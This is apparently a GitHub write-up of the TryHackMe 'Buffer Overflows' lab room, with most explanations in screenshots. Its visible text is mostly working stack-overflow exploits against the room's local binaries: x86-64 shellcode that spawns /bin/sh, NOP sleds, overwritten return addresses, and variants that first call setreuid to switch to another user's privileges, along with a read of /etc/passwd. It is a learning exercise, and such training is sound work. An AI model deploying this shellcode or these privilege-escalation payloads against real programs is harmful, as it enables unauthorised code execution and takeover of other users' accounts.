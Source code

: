 <p align="center">December 5, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{213}}$$-day-streak in  <a href="https://tryhackme.com/r/hacktivities">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{Buffer Overflows}}$$
</h1>
<p align="center">Learn how to get started with basic Buffer Overflows!</p>
<p align="center">Note that only subscribers can deploy virtual machines in this room, <a href="https://tryhackme.com/r/room/bof1">Buffer Overflows</a>.</p>
                                                              
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/7d2f56e1-61ae-4e90-916b-bc88a6900314">
  <img width="900px" src="https://github.com/user-attachments/assets/29dc99b5-9952-45c1-a87a-ebee326f1b50">
</p>


<h2>Introduction</h2>

![image](https://github.com/user-attachments/assets/22c39b6d-3e68-45ca-9515-6ba0ae8753c4)

<h2>Process Layout</h2>

![image](https://github.com/user-attachments/assets/e2c0f388-2df4-486b-828d-f07fb8c42421)


<h2>x86-64 Procedures</h2>

![image](https://github.com/user-attachments/assets/21a2694e-4ccc-4d1e-86d6-8c000540a81b)


<h2>Procedures Continued</h2>

![image](https://github.com/user-attachments/assets/cc08f37d-ccd5-4179-ac32-19f90ce58696)

<h2>Endianess</h2>

![image](https://github.com/user-attachments/assets/ce6144b4-e320-4aa9-b461-19a30d1ed03c)


<h2>Overwriting Variables</h2>

![image](https://github.com/user-attachments/assets/edbbdd54-b261-4538-8dd4-b88a83ad1a28)


<h2>Overwriting Function Pointers</h2>

![image](https://github.com/user-attachments/assets/fc36d53e-4ae3-43f5-813e-764e35f688d2)

<br>

![image](https://github.com/user-attachments/assets/31b156b1-4db4-4eb2-9f0f-92810e8b9579)

<br>

<p>omgyoudidthissocool!!</p>

<br>
<h2>Buffer Overflows</h2>

![image](https://github.com/user-attachments/assets/83a118ec-4cdd-4f98-8ab4-91e1eeacf566)


<p>continuing</p>

<br>


![image](https://github.com/user-attachments/assets/80afc8ec-0403-4c0c-abce-584c5a017392)

<br>

<pre><code>run $(python -c "print 'A'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'B'*6")</code></pre>

![image](https://github.com/user-attachments/assets/71f00228-3590-48c6-8dd9-f0f7487c7c47)

<br>

<pre><code>x/100x $rsp-200</code></pre>

![image](https://github.com/user-attachments/assets/40f84f6e-7be8-4ebc-a424-e0133222e500)


<br>

<p>Pay attention!</p>

<pre><code>0x7fffffffe2a8</code></pre>


<pre><code>run $(python -c "print '\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'B'*6")</code></pre>

<br>

![image](https://github.com/user-attachments/assets/50fa56f0-5072-4d4c-8d68-fa7f3429c65b)

<br>

<p>0x7fffffffe298 --> 0x98e2ffffff7f --> \x98\xe2\xff\xff\xff\x7f</p>

<br>

<p>Substitute <code>'B'*6</code> by <code>\x98\xe2\xff\xff\xff\x7f</code>.  And whe will have the following ...</p>

<pre><code>./buffer-overflow $(python -c "print '\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")</code></pre>

<br>

![image](https://github.com/user-attachments/assets/50fb5309-5fa8-4e08-84dc-bcaf7ac773a7)

<br>

![image](https://github.com/user-attachments/assets/42493d57-698c-47b3-b5f8-92ef756c91b1)

<br>

<p>we need to access it with <code>user 2</code>.</p>

![image](https://github.com/user-attachments/assets/cf5f11a8-d185-41db-9c31-fcbfb2e99c7a)

<pre><code>cat /etc/passwd</code></pre>

![image](https://github.com/user-attachments/assets/15f2599d-eaa3-4fa4-bce2-c21de1cde749)

<br>

<pre><code>./buffer-overflow $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")</code></pre>



<br>








<br>
<h2>Buffer Overflows 2</h2>

![image](https://github.com/user-attachments/assets/dff71db4-0e60-41e9-9c51-83c40e6bced6)

![image](https://github.com/user-attachments/assets/9a6e21ab-93bd-4a5d-b7f2-f0501d14ad1c)

![image](https://github.com/user-attachments/assets/aef228ce-97a2-4438-a1ca-f2de52f77ff5)

![image](https://github.com/user-attachments/assets/9e8e2675-0583-48f6-acbd-c015bd1176ad)

<pre><code>run $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")</code></pre>

![image](https://github.com/user-attachments/assets/1995e8ea-eda0-40a4-be28-bd5665fd878b)

<pre><code>./buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x78\xe2\xff\xff\xff\x7f')")
</code></pre>



![image](https://github.com/user-attachments/assets/6a745b72-f5c2-420a-bd9b-b89e5b7b019d)

<br>

![image](https://github.com/user-attachments/assets/f7dd5c61-13d3-403d-aa52-7df22a99f9f2)








![image](https://github.com/user-attachments/assets/fa25ddd0-0cc8-4ad5-b03a-387b1fd4a703)










